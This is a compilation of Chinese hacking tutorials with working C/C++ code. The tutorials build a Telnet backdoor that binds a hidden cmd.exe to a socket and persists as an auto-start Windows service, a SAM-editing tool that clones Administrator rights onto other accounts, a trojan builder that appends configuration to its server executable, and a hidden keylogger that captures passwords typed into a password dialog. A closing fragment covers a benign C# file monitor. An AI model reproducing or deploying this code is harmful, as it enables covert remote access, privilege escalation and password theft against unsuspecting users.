if(bind(sock, (const struct sockaddr *)&server, sizeof(server)) == SOCKET_ERROR)
    return; // 把上面的server配置完成后，
            // 就用这个函数来在网络上标识出来
if(listen(sock, 5) == SOCKET_ERROR) // 监听最大5个队列
    return;
while(1) // 用死循环来不停的接收连接
{
    msock = accept(sock, (struct sockaddr*)0, (int*)0); // 有连接到来了
    if(msock == SOCKET_ERROR)
        return;
    // 已经成功连接
}
```

```c
HANDLE Rpipe, Wpipe, Wide, Rfile; // 四个读写标识句柄
STARTUPINFO starinfo; // 结构
GetStartupInfo(&starinfo); // 设置启动信息到结构
starinfo.dwFlags = STARTF_USESHOWWINDOW | STARTF_USESTDHANDLES;
starinfo.hStdInput = Rpipe; // 读入句柄，下面用
starinfo.hStdError = starinfo.hStdOutput = Wpipe; // 输出句柄，下面用
starinfo.wShowWindow = SW_HIDE;
PROCESS_INFORMATION procinfo;
CreateProcess(systempath, NULL, NULL, NULL,
              TRUE, 0, NULL, NULL,
              &starinfo, &procinfo);
// 上面创建Dos进程
// systempath就是CMD文件的全路径

SECURITY_ATTRIBUTES pipew;
pipew.nLength = sizeof(SECURITY_ATTRIBUTES);
pipew.lpSecurityDescriptor = NULL;
pipew.bInheritHandle = TRUE;
CreatePipe(&Rpipe, &Wfile, &pipew, 0);
// 上面创建一个写管道，向Dos写信息，
// 注意这里的Rpipe和Wfile
char buf[1024];
int nothing;
while(1)
{
    Sleep(100); // 里面可以加上适当的延时
    int howlong = recv(msock, buf, 1024, 0); // 接收信息
    send(msock, buf, howlong, 0); // 这里可以决定要不要回显
    WriteFile(Wfile, buf, strlen(buf), &nothing, NULL); // 写入管道
    ZeroMemory(buf, 1024);
}
```

一般的 TCP 软件都是这样开始的，Telnet 后门也不例外。到了这里，用户就可以连接这台计算机了。Telnet 后门通常要用线程与用户建立连接，如果有一个用户发出连接请求就开一个线程，这样便不至于会出现非法用户堵塞路口使得其他的用户进不去的情况，所以线程就要从这里开始了。下面就要调用线程启动函数，具体创建的线程的代码后面介绍（上面的代码成功连接处就可以开始加入线程，或者再加上身份验证等）。

## 二、Telnet后门—管道

Telnet 后门捆绑 CMD 利用了管道技术。管道分为匿名和命名管道，我们要建立的是匿名管道，并且是两个匿名管道，一个专门负责把 DOS 的输出发回控制者手中，另外一个专门负责提供接收控制者发出的命令，并将命令请求返回给 DOS。下面举个简单的例子说明一下：

到这里，写管道就建立完成了，读管道的建立过程就要再开一个线程，实现同步操作，下面是读管道的程序，其实和写管道差不多，就不解释了：

```c
SECURITY_ATTRIBUTES piper;
piper.nLength = sizeof(SECURITY_ATTRIBUTES);
```

```c
piper.lpSecurityDescriptor = NULL;
piper.bInheritHandle = TRUE;
CreatePipe(&Rfile, &Wpipe, &piper, 0);
char buf[50000];
int howlong;
while(1)
{
    ReadFile(Rfile, buf, 50000, &howlong, NULL); // 读dos的输出信息
    Send(msock, buf, howlong, 0); // 发送回去
}
```

```c
RegisterServiceCtrlHandler("BeginServ"); // 启动函数（调整状态，详看下面说明）
...
dwServiceType = SERVICE_WIN32_OWN_PROCESS |
                SERVICE_INTERACTIVE_PROCESS;
ss.dwCurrentState = SERVICE_RUNNING;
// 这里需要频繁的修改。
// 可能的取值有：SERVICE_PAUSED，
// SERVICE_STOPPED，我想这些不要我说明吧
...
ss.dwControlsAccepted = SERVICE_ACCEPT_STOP;
ss.dwWin32ExitCode = NO_ERROR;
ss.dwCheckPoint = 0;
ss.dwWaitHint = 0;
SetServiceStatus(ssh, &ss); // 设置服务状态
Sleep(100); // 延迟一下
func2begin(); // 自己的函数
}
```

这样，一个简单的 Telnet 后门程序就算完成了，在上面代码的基础上加上自己的创意，应该不难写出一个好的后门来。OK!，下面转入 Telnet 的另外一张王牌——NT 服务启动方式。

## 二、Telnet 后门－NT 服务启动

Telnet 后门可以说是非法软件，笔者觉得用加载注册表的方式启动容易使程序暴露，一个稍微有点 Windows 操作基础的人便可以很快地排除程序的驻留（杀进程，删注册表，删除文件）。下面，介绍一种较好的启动方法：注册为系统服务，这种方法有如下特点：随系统运行启动，一般的手工方式不能删除，隐蔽性好。但是它只适用于 NT 内核的系统。

在主函数里就可以直接添加如下代码：

```c
SERVICE_TABLE_ENTRY beginser[2]; // 两个结构
beginser[0].lpServiceName = 你的服务名;
beginser[0].lpServiceProc = StartMain; // 服务函数名
beginser[1].lpServiceName = NULL;
beginser[1].lpServiceProc = NULL;
StartServiceCtrlDispatcher(beginser); // 开始服务
```

这是调用服务必需的操作，上面定义了 2 个 SERVICE_TABLE_ENTRY，因为最后一个服务要留空，所以你用 1 个服务就要定义 2 个。

下面是 ServiceMain 这个函数的代码（也就是服务的开始）：

```c
void WINAPI StartMain(DWORD dwArgc, LPTSTR *lpszArgv)
```

现在还少一个函数，就是上面的 “BeginServ”，其代码如下：

```c
void WINAPI BeginServ(DWORD Opcode) // 服务控制程序
{
    switch(Opcode)
    {
    case SERVICE_CONTROL_STOP: // 停止服务
        ...
        dwServiceType = SERVICE_WIN32_OWN_PROCESS |
                        SERVICE_INTERACTIVE_PROCESS;
        // 和上面一样，这里不加注释了
        ss.dwCurrentState = SERVICE_STOPPED;
        ss.dwControlsAccepted = SERVICE_ACCEPT_STOP;
        ss.dwWin32ExitCode = NO_ERROR;
        ss.dwCheckPoint = 0;
        ss.dwWaitHint = 0;
        SetServiceStatus(ssh, &ss);
        break;
    case SERVICE_CONTROL_INTERROGATE:
        SetServiceStatus(ssh, &ss);
        break;
    } // endswitch
}
```

现在就可以让服务运行这个程序了。写了这么多都是为了配合服务方式运行，重点还是我们自己的函数。这里要构成服务还需要有一个程序来帮助它运行，也就是寄生程序。值得注意的是，这个寄生程序在第一次运行完成后就没有作用了，你可以选择删除它，或者作为程序的备份（可以选择以流方式隐藏文件，不会给人看到哦，嘿嘿），我们先来看看它的代码：

```c
SC_HANDLE SCM=NULL, SCS=NULL;
SCM = OpenSCManager(NULL, NULL, SC_MANAGER_ALL_ACCESS);
if (SCM != NULL)
{
    SCS = CreateService(SCM, 服务名字, 服务名字,
        SERVICE_ALL_ACCESS,
        SERVICE_WIN32_OWN_PROCESS |
        SERVICE_INTERACTIVE_PROCESS,
        SERVICE_AUTO_START, // 自动运行方式
        SERVICE_ERROR_IGNORE,
        这里是文件全路径名就是上面那个文件的地址,
        NULL, NULL, NULL, NULL, NULL); // 后面5个参数一般不要写的

    if (SCS == NULL) // 创建失败，尝试打开服务
    {
        if (GetLastError() == ERROR_SERVICE_EXISTS)
        {
            SCS = OpenService(SCM, 服务名字, SERVICE_ALL_ACCESS); // 打开服务
            if (SCS == NULL) // 出错则关闭，退出
                goto exit;
        }
        else
            goto exit;
    }

    StartService(SCS, 0, NULL); // 开始服务
}
exit: // 退出地址
CloseServiceHandle(SCS); // 关闭句柄
CloseServiceHandle(SCM);
```

以上就是运行上面的那个程序的寄生体要执行的代码了，其中服务名字要和上面本体的服务名字相对应。这样，就完成了启动工作，不写注册表，干净，用服务来启动，不是老鸟，还一时半会找不到。就算是找到了，手工方式删除不了哦。大家可以看看“控制面板→管理工具→服务”里面，就是你机器的全部服务了，很多，你试试删除一个服务看看，是不是没有删除选项？

补充：

写成服务，要成功地安装并执行程序，这大体要 2 个程序。对于只有一个 EXE 的程序来讲，安装就比较考功夫了。不过，索性我们写出 2 个程序，用包裹的方式，这样比较简单。也有很多好处：Server 写起来简单，本体和寄生体大小不同，不容易发现，寄生体可以把事先要做的事情全部做完等等。下面介绍几种可以把两个程序合成为一个 EXE 的方法（很多捆绑软件就是这么写出来的）。当然，我们这里只需量身定做，不用写得那么复杂。

- 1. 先作一个文件头（rc文件），把需要包裹的程序和这个头文件一起包裹（BCB中，Bin目录下面有一个Brcc32.exe程序就是用来生成头文件的，Delphi也有），这样做的好处是捆绑生成的文件很小（基本上就是多了一个头文件的大小），但写起来麻烦了点（相对下面的方法来说不麻烦）。
- 2. 直接把数据添加到自身的尾巴后面，这样做的好处就是写起来简单，释放也快，缺点很明显，对于写捆绑程序来说文件太大。
- 3. 直接把程序化成2进制代码，保存在文件的静态缓冲区中（char类型的全局变量），这种方式虽然不会缩短文件的大小，但是不容易出错，而且更简单，只要定义了数组，把文件化成2进制数据拷贝进去，就可以了，呵呵。

以上几种方法，大家自己选择，我推荐使用方法 3，因为其比较简单，而方法 1 和 2 就显得有点大材小用了。

笔者水平有限，文章如果有什么错误的地方，欢迎讨论。

## 用 C 实现克隆账号


网上克隆账号的教程已出了好些时候了，各种克隆账号的工具相信大家也用过不少了，有没有想过自己写一个呢？那么，在这里给大家介绍简单克隆工具的编程实现吧！

文/noir

为了程序的通用性，我选择的是用标准 C 来编写的。下面首先要介绍的是克隆账号的实现，与注册表 HKLM 下的 SAM 键的关系密不可分，网上那些教程大多是针对注册表的这项的操作而已。说到这里，你可能已经猜到了，没错，WIN32 的 API 中就为我们提供了非常强大的 RegAPI，专门用来操作注册表，在下面的程序中我会做出详细解释。

现在，先要讲讲 SAM 数据库的结构。SAM 数据库位于注册表 `HKLM\SAM\SAM` 下，默认是 system 权限完全控制（administrator 都看不到的哦！）。你可以在“开始”-->“运行”中输入 `regedt32.exe` 打开 32 位注册表编辑器，并对 `HKLM\SAM\SAM` 下的键设置适当权限查看 SAM 中的内容。还要说明的是，为了程序能在多数系统上运行，最好能把你的这个程序写成一个服务，因为服务就具有 system 权限，不过服务的写法不在本文的讨论范围内，这里我只是说明一下，而且服务那部分的相关代码我已给出。

数据库的 `\Domains\Account\Users` 下就是各个账号的信息。其下的子键就是各个账号的 SID 相对标志符（RID）。比如 `000001F4`，每个账号下面有两个子项，F 和 V。其中，`\Names\` 下是用户账号名，每个账号名只有一个默认的子项。项中类型不是一般的注册表数据类型，而是指向标志这个账号的 RID，比如其下的 Administrator，类型为 `0x1F4`，于是前面的 `000001F4` 就对应着账户名 administrator 的内容。项目 V 中保存的是账户的基本资料、用户名、用户全名（full name）、所属组、描述、密码 hash、注释，是否可以更改密码、账户启用、密码设置的时间等。项目 F 中保存的是一些登录记录，比如上次登录时间、错误登录次数等。

首先，我们要将 RID 为 1F4 的系统内置管理员账号的相关信息导出，在手动克隆时，我们可以直接用注册表编辑器导出，存为文件。而且，这也很好地模拟实现了对 RID 为 1F4 的系统内置管理员账号的相关信息导出。请看以下代码：

```c
HKEY hkeyRoot, hkeyUser;
DWORD Type = REG_BINARY, sizeF = 1024*2, sizeV = 1024*10, ret;
LPBYTE lpDataF, lpDataV;

lpDataF = (LPBYTE) malloc(1024*2); // 这里要注意的是分配的空间必须足够大，因为 F 和 V 下的数据量是很大的
lpDataV = (LPBYTE) malloc(1024*10);
ZeroMemory(lpDataF, 1024*2);
ZeroMemory(lpDataV, 1024*10);

ret = RegOpenKeyEx(
    HKEY_LOCAL_MACHINE, // 打开的根键名
    "SAM\\SAM\\Domains\\Account\\Users\\000001F4", // 打开的子键路径
    0, // 保留，必需为0
    KEY_ALL_ACCESS, // 允许所有的访问类型
    &hkeyRoot);

if(ret == ERROR_SUCCESS)
    ...
else
{
    printf("open key FAIL!\n");
    return 0;
}
```

```c
// 下面将有详细的说明
ret = RegQueryValueEx(
    hkeyRoot,   // 一个已打开的键的句柄
    "F",        // 值的名称
    NULL,       // 保留，必须为 NULL
    &Type,      // 指向一个用来保存类型的缓冲区地址
    lpDataF,    // 指向一个用来保存值的数据的缓冲区地址
    &sizeF      // 指向一个用来声明 lpData 参数大小的 DWORD 型数据的地址
);
if(ret == ERROR_SUCCESS)
else
{
    printf("Query key FAIL\n\r");
    return 0;
}

ret = RegQueryValueEx(
    hkeyRoot,
    "V",
    NULL,
    &Type,
    lpDataV,
    &sizeV
);
if(ret == ERROR_SUCCESS)
else
{
    printf("Query key FAIL\n\r");
    return 0;
}
```

这里主要用到的 API 就是 RegQueryValueEx，用来查询指定的值的内容，并可以保存到一个缓冲区里，其原型为：

```c
LONG RegQueryValueEx(
    HKEY hKey,            // 一个已打开的键的句柄
    LPCTSTR lpValueName,  // 值的名称
    LPDWORD lpReserved,   // 保留，必须为 NULL
    LPDWORD lpType,       // 指向一个用来保存类型的缓冲区地址
    LPBYTE lpData,        // 指向一个用来保存值的数据的缓冲区地址
    LPDWORD lpcbData      // 指向一个用来声明 lpData 参数大小的 DWORD 型数据的地址
);
```

前面说的将 RID 为 1F4 的系统内置管理员账号的相关信息导出，实际上就是将其中的 F 和 V 项的数据导出就可以了，所以前面用到的两个 RegQueryValueEx 就是分别用来保存 F 和 V 项的数据的。

下一步：将 1F4 的系统内置管理员账号的相关信息导入到你想克隆的账户里。怎么做呢，同样很简单，先看代码：

```c
char user[4]; // 这个是要求用户输入的要克隆账户的 RID，如何得到 RID，下面将说到。
char CloneUserKey[100];
strcpy(CloneUserKey, "SAM\\SAM\\Domains\\Account\\Users\\0000"); // 设定要克隆的键
strcat(CloneUserKey, user); // 添加要克隆的键的 RID
ret = RegOpenKeyEx(
    HKEY_LOCAL_MACHINE,
    CloneUserKey,
    0,
    KEY_ALL_ACCESS,
    &hkeyUser
);
if(ret == ERROR_SUCCESS)
else
{
    printf("open key FAIL\n\r");
    return 0;
}

// RegSetValueEx，用来设定指定的值的内容，下面将有详细的说明：
ret = RegSetValueEx(
    hkeyUser,    // 一个已打开的键的句柄
    "F",         // 值的名称
    0,           // 保留，必须为 NULL
    REG_BINARY,  // 用来声明将设定的值的类型
    lpDataF,     // 指向一个用来保存值数据的缓冲区地址
    sizeF        // 用来声明 lpData 参数大小的 DWORD 型数据
);
if(ret == ERROR_SUCCESS)
else
{
    printf("set key FAIL\n\r");
    return 0;
}

ret = RegSetValueEx(
    hkeyUser,
    "V",
    0,
    REG_BINARY,
    lpDataV,
    sizeV
);
if(ret == ERROR_SUCCESS)
else
{
    printf("set key FAIL\n\r");
    return 0;
}
```

```c
if(ret == ERROR_SUCCESS)
    printf("clone SUCCESS.\n\r");
else
{
    printf("clone FAIL.\n\r");
    return 0;
}
RegCloseKey(hkeyRoot);
RegCloseKey(hkeyUser);
return 1;
```

这里，主要用到的 API 就是 RegSetValueEx，用来设定指定的值的内容，其原型为：

```c
LONG RegSetValueEx(
    HKEY hKey,            // 一个已打开的键的句柄
    LPCTSTR lpValueName,  // 值的名称
    DWORD Reserved,       // 保留，必须为NULL
    DWORD dwType,         // 用来声明将设定的值的类型
    CONST BYTE *lpData,   // 指向一个用来保存值的数据的缓冲区地址
    DWORD cbData          // 用来声明 lpData 参数大小的DWORD型数据
);
```

以上是把导出的信息用 RegSetValueEx 写入到你想克隆的用户的相应键值下，就一个 API 就搞定了，是不是很简单呢？

如何得到对应用户的 RID，同样用代码来说明：

```c
char set[100];   // 此处是你设定的要访问的键的路径
HKEY hkey;
DWORD Type = 0, ret;
char szBuff[10]; // 保存RID
ret = RegOpenKeyEx(
    HKEY_LOCAL_MACHINE,
    set,
    0,
    KEY_ALL_ACCESS,
    &hkey
);
if(ret == ERROR_SUCCESS)
else
{
    printf("open key FAILA\n");
    return 0;
}
```

```c
// RegQueryValueEx，这里是用他来查询对应键的键类型，下面将有详细的说明
RegQueryValueEx(
    hkey,      // 一个已打开的键的句柄
    NULL,      // 值的名称
    NULL,      // 保留，必须为NULL
    &Type,     // 指向一个用来保存类型的缓冲区地址
    NULL,      // 指向一个用来保存值的数据的缓冲区地址
    NULL       // 指向一个用来声明 lpData 参数大小的DWORD型数据的地址
);
wsprintf(szBuff, "%X\n\r", Type);
printf("%s", szBuff);
return 1;
```

还记得前面我说的 RegQueryValueEx 吗？它可不是光用来查询键值的哦，这里就是用它来查询对应键的键类型。

> “每个账号名只有一个默认的子项，项中类型不是一般的注册表数据类型，而是指向标志这个账号的 RID。”

```c
LONG RegQueryValueEx(
    HKEY hKey,            // 一个已打开的键的句柄
    LPCTSTR lpValueName,  // 值的名称
    LPDWORD lpReserved,   // 保留，必须为NULL
    LPDWORD lpType,       // 指向一个用来保存类型的缓冲区地址
    LPBYTE lpData,        // 指向一个用来保存值的数据的缓冲区地址
    LPDWORD lpcbData      // 指向一个用来声明 lpData 参数大小的DWORD型数据的地址
);
```

这里要注意的是，因为你查询的是默认的键值，那么键值名那里就要用 NULL，然后用一个 &Type 来保存键类型就可以，一个属于你的克隆工具就诞生了。在此感谢好友 HotMail 的帮忙，此文参阅了 MSDN，参阅了 Refdom 写的《解剖安全账号管理器（SAM）结构》一文，这里一并表示感谢！

附：Ex-Service.txt：一个服务程序的源代码，一旦启动会将 Guest 账号克隆为 administrator。

Clone--Code.txt：一个克隆工具的源代码，需要自己用 regedt32 把 SAM 键及其子键设置为 administrator 可以访问才能使用。

# 如何实现根据用户配置

## 生成木马服务器端

文 / shocker

大家一定都用过像冰河、winshell 这样的木马，它们可以根据用户的配置（比如说：自定义端口等），生成一个服务器端程序，以前我一直不太明白其中的原理，难道说这类软件会自动编译程序？呵呵，后来在安全焦点看到 glacier 写的文章，大概说了一下原理。随后又在网上找了一下相关的资料，自己编程实现了一下。不亲自动手做，觉得很神奇，其实明白了原理，亲自实践一下就会非常清楚了。下面，我就来说一下具体的原理和我写的测试程序。以下程序都是在 Windows 2000 + SP3 + VC++ 7.0 编译的，如果你用的是 VC++6.0，可能过程稍有不同，但是代码应该都是相同的：）

```cpp
int _tmain(int argc, TCHAR* argv[], TCHAR* envp[])
{
    int nRetCode = 0;
    // 初始化 MFC 并在失败时显示错误
    if (!AfxWinInit(::GetModuleHandle(NULL), NULL, ::GetCommandLine(), 0))
    {
        // TODO: 更改错误代码以符合您的需要
        _tprintf(_T("致命错误: MFC 初始化失败\n"));
        nRetCode = 1;
    }
    else
    {
        // TODO: 在此处为应用程序的行为编写代码。
        CFile readconfig;
        char path[256];
        char config[10];
        GetCurrentDirectory(255, path);
        strcpy(path, argv[0]);
        readconfig.Open(path, CFile::modeRead | CFile::typeBinary, NULL);
        readconfig.Seek(-10, CFile::end);
        readconfig.Read(config, 10);
        MessageBox(NULL, config, "success", NULL);
    }

    return nRetCode;

    // 黑体部分是我们要输入的，还有就是在头文件中加入
    #include "windows.h"
    #include "string.h"
}
```

首先，我们先要写好一个服务器端程序，为了测试，就不写那种开端口监听，然后调用管道操作 cmd 的了。直接写个一运行就根据用户的配置弹出一个对话框，上面有用户配置的时候输入的字符串。

这是没有配置的时候，所以上面什么都没有显示。下面我们就来建立这个程序。打开 vc.net 编译器，新建 -> 项目 -> 选择建立一个 win32 工程，名为 testconfig；然后在弹出来的对话框中选择控制台程序，mfc 支持，确定后就可以输入代码了。

程序：大体就是以二进制打开自身的文件，把文件指针移动到尾部，然后读取 10 个字节的内容，再调用 MessageBox 输入出来。程序很简单，就不做过多的解释了。接下来，我们编译运行（编译出来的文件名为 testconfig.exe），就会看见弹出了刚才的 messagebox。

好了，如果没什么错，下面我们来写配置程序，建立工程和刚才一样，代码如下：

```cpp
int _tmain(int argc, TCHAR* argv[], TCHAR* envp[])
{
    int nRetCode = 0;

    // 初始化 MFC 并在失败时显示错误
    if (!AfxWinInit(::GetModuleHandle(NULL), NULL, ::GetCommandLine(), 0))
    {
        _tprintf(_T("致命错误: MFC 初始化失败\n"));
        nRetCode = 1;
    }
    else
    {
        // TODO: 在此处为应用程序的行为编写代码。
        // 释放资源文件部分
        HRSRC hRes = FindResource(NULL, MAKEINTRESOURCE(IDR_TEST1), _T("test"));
        // 获得指定资源的大小
        DWORD dwSize = SizeofResource(NULL, hRes);
        // 将资源载入内存
        HGLOBAL MemoryHandle = LoadResource(NULL, hRes);
        if (MemoryHandle != NULL)
        {
            BYTE *MemPtr = (BYTE *)LockResource(MemoryHandle);

            // 定位资源位置
            char path[256];
            GetCurrentDirectory(255, path);
            strcat(path, "\\testconfig.exe");

            // 创建一个文件，写入资源数据
            CFile file(path, CFile::modeCreate | CFile::modeWrite);
            file.Write(MemoryHandle, dwSize);
            file.Close();
        }

        CFile setconfig;
        char path[256];
        char test[10];
        GetCurrentDirectory(255, path);
        strcat(path, "\\testconfig.exe");

        if (!setconfig.Open(path, CFile::modeWrite | CFile::typeBinary, NULL))
        {
            cout << "找不到testconfig.exe文件!" << endl;
            return -1;
        }

        setconfig.SeekToEnd();
        cout << "请输入你想要进行配置的字符串:";
        cin >> test;
        setconfig.Write(test, 10);
        setconfig.Close();
    }

    return nRetCode;
}
```

同时，也不要忘记加头文件，和刚才一样。输入完代码后（编译有错误呀！当然了，我们还没有导入刚才编译好的服务器端文件呢），选择资源对话框。

添加一个资源，在弹出的添加资源对话框中选择导入，然后找到你刚才编译的 .exe 程序，我编译的程序叫 testconfig.exe，"确定"后，编译器会让你给这个资源命名。随便输入一个 test，确定后就会发现资源窗口中多了一个 test 的资源。这时候，这个资源还是外部资源，我们要把它改为我们配置程序的内部资源。

然后把它读到内存中，再新建一个文件，将内存中的内容写到新建文件里面。这样，这个新建的文件就变成一个可执行文件了。

然后，我们再向这个文件末尾写入 10 个字节的东西，当它运行的时候就会先读取自身结尾 10 个字节的东西，然后显示出来。

现在让我们编译、运行程序，会看到弹出来窗口，让我们输入字符串，我们输入一句，会发现在它的目录中出现了一个 testconfig.exe 的文件，运行它，就会弹出我们刚才输入的 test。

Yeah，写木马的时候就是这个方法来达到根据用户配置生成可执行文件的功能，现在大家都明白了吧，如果有什么不明白的，可以跟我联系 shocker@163.com，或者来 c4st.51.net 的论坛找技术交流版与大家讨论：）

---

## 打造自己的一键盘记录软件

文 / psbeyond

编写盗取密码的程序时，所用的方法通常是，用 SendMessage 的方法获得"***"的内容，这种方法比较直接，但所获取的信息有限。另外一种方法，就是截获键盘的输入，并进行记录，需要用到钩子技术，虽然复杂些，但这是获取键盘输入信息的最有效方法。

键盘记录软件的原理之一是使用钩子截获键盘消息；钩子可以实现下面几个作用：

- 把截获到的消息复制一份自己保留，再把原消息原封不动发出去；
- 把截获到的消息扣留；
- 把截获到的消息改变后发出去。

为了不使原来的程序出现错误，我们采用第一条作用。分两步实现：钩子的制作和钩子的使用。笔者所用的编译环境 VC 6.0 + Windows 2000。

```cpp
#define Dllexport __declspec(dllexport)
Dllexport void WINAPI InstallKeyBoardHook(DWORD dwThreadId);
Dllexport void WINAPI UninstallKeyBoardHook();
```

### 一、钩子的制作

1. 使用应用程序向导生成 MFC AppWizard（dll）工程，工程名为：KeyBoardDLL。选择 Regular DLL with MFC statically linked，其他默认。

2. KeyBoardDLL.h 中 `#include "resource.h"` 下声明我们要输出的函数接口，请添加以下 3 行代码：

3. 接下来，在 KeyBoardDLL.cpp 文件中实现上面声明的两个函数。在编写以前，先解释一下用到的两个 API：SetWindowsHookEx 和 UnhookWindowsHookEx

```cpp
HHOOK SetWindowsHookEx(
    int idHook, // 安装钩子类型，如果是键盘钩子，值为 WH_KEYBOARD
    HOOKPROC lpfn, // 钩子程序入口地址，为一个回调函数；
    // 本例中为 LauncherHook，事件触发后自动执行
    HINSTANCE hMod,          // 应用程序实例句柄，如果下面的参数 dwThreadId 由当前进程创建，则值必须为 NULL。
    DWORD dwThreadId         // 钩子寄生的线程 ID（下面会讲获得方法），如果想截获全局消息，则设置为 0。
)
```

与 SetWindowsHookEx 相反，UnhookWindowsHookEx 的作用是卸载钩子，参数为钩子程序的句柄，其值由 SetWindowsHookEx 的返回值确定。解释完 API 后，就可以进行下面的操作了。在 KeyBoardDLL.cpp 文件中找到 "CKeyBoardDLLApp theApp;"，在它下面添加下面的函数：

```cpp
// 安装钩子
DllExport void WINAPI InstallKeyBoardHook(DWORD dwThreadId)
{
    Hook = (HHOOK)SetWindowsHookEx(WH_KEYBOARD, (HOOKPROC)LauncherHook, theApp.m_hInstance, dwThreadId);
}

// 卸载钩子
DllExport void WINAPI UninstallKeyBoardHook()
{
    UnhookWindowsHookEx(Hook);
}
```

其中，Hook 为 HHOOK 类型的全局变量，需在程序开始定义（HHOOK Hook;）。LauncherHook 为一个回调函数。

```cpp
LRESULT CALLBACK LauncherHook(int nCode, WPARAM wParam, LPARAM lParam)
{
    // 为防止其他使用钩子的程序出错，在截获到钩子后还得传递出去
    LRESULT Result = CallNextHookEx(Hook, nCode, wParam, lParam);
    if (nCode == HC_ACTION)
    {
        if (lParam & 0x80000000)
        {
            // 保存按键代码
            char c[2] = wParam;
            SaveLog(c);
        }
    }
    return Result;
}

void SaveLog(char* c)
{
    CTime tm = CTime::GetCurrentTime();   // 得到当前时间
    CString name;
    // 生成 C 盘下的 Key_月_日.log 型的文件
    name.Format("C:\\Key_%d_%d.log", tm.GetMonth(), tm.GetDay());
    CFile file;
    if (!file.Open(name, CFile::modeReadWrite))
    {
        file.Open(name, CFile::modeCreate | CFile::modeReadWrite);
    }
    file.SeekToEnd();   // 写指针定位到文件尾，既以追加方式写入
    file.Write(c, 1);   // 写数据
    file.Close();       // 文件关闭
}
```

上面使用 MFC 方式操作文件，如果你对 C 语言的 fopen 方式比较熟悉，可自行替换。这几个函数是从网上 copy 的，非常简单，仅做了少量修改。如果对上面的函数有不清楚的，请参考 MSDN。

编译运行，在 Debug 文件夹下会生成 KeyBoardDLL.dll、KeyBoardDLL.lib 两个文件，连同 KeyBoardDLL.h 文件备份出来就可以应用在其它程序当中了。

### 二、钩子的使用

我以前制作截获更改用户密码的程序为例。程序要时刻监视系统的运行，当发现标题为"设置密码"的程序为前端窗口时，我们在上面写的键盘钩子开始起作用。而当其他窗口为前端窗口时，则卸载键盘钩子。很容易想到使用定时器来完成。为了防止钩子被多次安装，还得设置一个 BOOL 型成员变量，初始化为 FALSE；如果钩子被安装，则改变其值为 TRUE；被卸载，再把其值变为 FALSE。好了，原理说到这儿，使用应用程序向导新建立一个单文档程序，工程名为 GetUserPWD，在 How would you like to use the MFC library? 中选择 As a statically linked library。把上面 3 个文件 copy 到工程文件夹下。在工程—设置—Link 中添加 KeyBoardDLL.lib，把 KeyBoardDLL.h 导入工程中；在 MainFrm.cpp 中包含头文件 `KeyBoardDLL.h`，使用类向导为 `CMainFrame` 类添加定时器消息映射。

另外，在初始化程序 `CMainFrame::OnCreate` 中设置定时器 `SetTimer(0,100,NULL)`。为工程重载虚函数 `DestroyWindow`（在 ClassView 中的 `CMainFrame` 上右键选 Add Virtual Function，在弹出的窗口中选 `DestroyWindow`），作用是在关闭应用程序时处理一些任务。对于本工程来说，下面两个任务需要在结束程序时执行：

```cpp
// 杀死定时器
KillTimer(0);
// 卸载钩子：
UninstallKeyBoardHook();
```

```cpp
void CMainFrame::OnTimer(UINT nIDEvent)
{
    char szTitle[256] = {0};
    // 得到前端窗口句柄 hWnd
    HWND hWnd = ::GetForegroundWindow();

    // 由 hWnd 得到窗口标题，保存在字符串 szTitle 中
    ::SendMessage(hWnd, WM_GETTEXT, 255, (long)szTitle);
    if(strcmp(szTitle, "设置密码") == 0) // 如果标题为"设置密码"执行以下操作
    {
        // bIsInstall 为 BOOL 型成员变量，表示钩子是否安装，在初始化时设为 FALSE（未安装）
        if(!bIsInstall)
        {
            DWORD dwProcessId = 0;
            // 安装钩子，传入"设置密码"窗口的线程 ID。GetWindowThreadProcessId
            // 函数的作用是由窗口句柄获得窗口的线程 ID
            InstallKeyBoardHook(
                GetWindowThreadProcessId(hWnd, &dwProcessId));
            bIsInstall = TRUE;
        }
    }
    else
    {
        // bIsInstall 设为 FALSE
        UninstallKeyBoardHook();
        bIsInstall = FALSE;
    }

    CFrameWnd::OnTimer(nIDEvent);
}
```

作为一个键盘记录软件，当然不希望出现程序的窗口。在单文档程序中，使窗口不可见非常简单。只要在：`PreCreateWindow(CREATESTRUCT& cs)` 中改变窗口风格就可以了，如下：

```cpp
BOOL CMainFrame::PreCreateWindow(CREATESTRUCT& cs)
{
    if(!CFrameWnd::PreCreateWindow(cs))
        return FALSE;

    // TODO: Modify the Window class or styles here by modifying
    // the CREATESTRUCT cs
    // 使窗口不可见并且不出现在任务栏中
    cs.style = WS_POPUP;
    cs.dwExStyle |= WS_EX_TOOLWINDOW;
    return TRUE;
}
```

当然，如果你想记录所有的键盘输入，就可以不使用定时器消息，而直接在初始化程序时调用 `InstallKeyBoardHook(0)` 安装钩子，在程序结束时使用 `UninstallKeyBoardHook` 卸载钩子。还有一个问题，就是程序的结束，因为我们屏蔽了窗口和任务栏图标，所以只能用 `Ctrl+Alt+Del` 调出任务管理器结束了。如果你有兴趣，可以编写热键呼出功能，把它做成一个完整、实用的软件。部分源码可在 `http://www.diligencedalian.com/psbeyond/GetUserPWD.zip` 下载。

## 用 C# 打造一个文件系统监视器

大家可能都会有这样的要求，需要对硬盘中某一个文件夹做实时监控，监视其更改、删除等事件。比如，对于网站的 Web 文件夹，我们需要对其进行实时监控；以防止被非法入侵者修改。在 .NET 出现之前，编写这样的程序需要自己编写系统组件，相当的麻烦，在 .NET 环境下，则是非常容易的，因为微软提供了一个非常灵活的系统组件来实现此功能，那就是文件系统监视器（FileSystemWatcher），下面我们一起来探讨如何利用这个组件编写出一个文件系统监视器。

| 属性 | 说明 |
|---|---|
| Filter | 确定那些文件需要监控 |
| IncludeSubdirectories | 子目录是否需要监控 |
| InternalBufferSize | 内部缓冲区大小 |
| NotifyFilter | 需要监控哪些类型的变化 |

指定要监视的目录：使用两个属性确定 FileSystemWatcher 组件应该监视的目录：Path 和 IncludeSubdirectories。这可以用标准目录路径表示法（c:\directory）或 UNC 格式（\\server\directory）表示。

指定要监控的变化：使用 “Filter” 属性设置为空字符串，则是监控目录内所有文件，也可以只监视某种类型的文件，如 “*.htm” 则是监视所有 htm 文件。

### 一、FileSystemWatcher 组件属性

使用 FileSystemWatcher 组件可以监视文件系统，并在文件系统中包含的目录和文件发生更改时作出反应。这使你可以在特定的文件和目录被创建、修改或删除时，快速方便地启动业务处理。例如，在网站的 Web 文件夹中的网页文件被非法更改或删除的时候，就可以使用 File System Watcher 组件的实例，通过电子邮件通知网络管理员或者是运用备份的文件进行替换等等。

